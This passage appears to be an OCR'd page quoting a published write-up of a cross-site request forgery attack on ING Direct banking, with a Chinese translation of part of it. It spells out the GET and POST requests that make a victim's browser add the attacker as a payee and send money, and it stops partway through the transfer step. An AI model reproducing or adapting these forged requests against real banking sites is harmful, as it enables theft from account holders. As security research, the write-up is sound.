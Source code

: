 >• A GET request to https://secure. ingdirect.com/myaccount/ INGDirect.html?command= goToModifyPersonalPayee&Mode= Add&from=displayEmailMoney

>(b) The attacker causes the user’s browser to enter the attacker’s information:

>• A POST request to https://secure. ingdirect.com/myaccount/ INGDirect.html with the parameters:
command=validateModifyPersonalPayee &from=displayEmailMoney&PayeeName =[PAYEE NAME]&PayeeNickname=&chk Email=on&PayeeEmail=[PAYEE EMAIL] &PayeeIsEmailToOrange=true&Payee OrangeAccount=[PAYEE ACCOUNT NUM]& YES, I WANT TO CONTINUE..x=44
            &YES, I WANT TO CONTINUE..y=25
. . . where [PAYEE NAME] is the attacker’s name, [PAYEE EMAIL] is the attacker’s email address and [PAYEE ACCOUNT NUM] is the attacker’s ING account number.
> (c) The attacker causes the user's browser 
confirm that the attacker is a valid payee:

>• A POST request to https://secure.
ingdirect.com/myaccount/ INGDirect.html with the parame- ters:
                 command=modifyPersonalPayee&from=
                 displayEmailMoney&YES, I WANT TO
                 CONTINUE..x=44 &YES, I WANT TO
                 CONTINUE..y=25

```
2.攻击者将自己添加为用户账户收款人。
(a)攻击者使用户的浏览器访问ING的“添加人员”页面：
    •一个GET请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html?command= goToModifyPersonalPayee&Mode= Add&from=displayEmailMoney
(b)攻击者使用户浏览器输入攻击者的信息：
   •一个POST请求发送到https://secure. ingdirect.com/myaccount/ INGDirect.html 带有以下参数：
           command=validateModifyPersonalPayee &from=displayEmailMoney&PayeeName =[PAYEE NAME]&PayeeNickname=&chk Email=on&PayeeEmail=[PAYEE EMAIL] &PayeeIsEmailToOrange=true&Payee OrangeAccount=[PAYEE ACCOUNT NUM]& YES, I WANT TO CONTINUE..x=44
            &YES, I WANT TO CONTINUE..y=25
            
            …其中[PAYEE NAME]是攻击者的名字，[PAYEE EMAIL]是攻击者的电子邮件地址，[PAYEE ACCOUNT NUM]是攻击者的ING帐号。
(c)攻击者使用户浏览器确认攻击者是有效的收款人账户：

•一个POST请求给 https://secure.
ingdirect.com/myaccount/ INGDirect.html 带着以下参数:

                 command=modifyPersonalPayee&from=
                 displayEmailMoney&YES, I WANT TO
                 CONTINUE..x=44 &YES, I WANT TO
                 CONTINUE..y=25

```
>3. The attacker transfers funds from the user’s account to his own account.
(a) The attacker causes the user’s browser to enter an amount of money to send to the attacker:
• A POST request to https://secure. ingdirect.com/myaccount/ INGDirect.html with the parame- ters:
command=validateEmailMoney&CNSPayID =5000&Amount=[TRANSFER AMOUNT] &Comments=[TRANSFER MESSAGE]&YES,
I WANT TO CONTINUE..x=44 &YES, I WANT TO CONTINUE..y=25&show=1&button=Send Money
. . . where [TRANSFER AMOUNT] is the amount of money to transfer from the user’s account to the attacker’s account and [TRANSFER MESSAGE] is the message to include with the transaction.
>(b) The attacker causes the user’s browser to con- firm that the money should be sent:
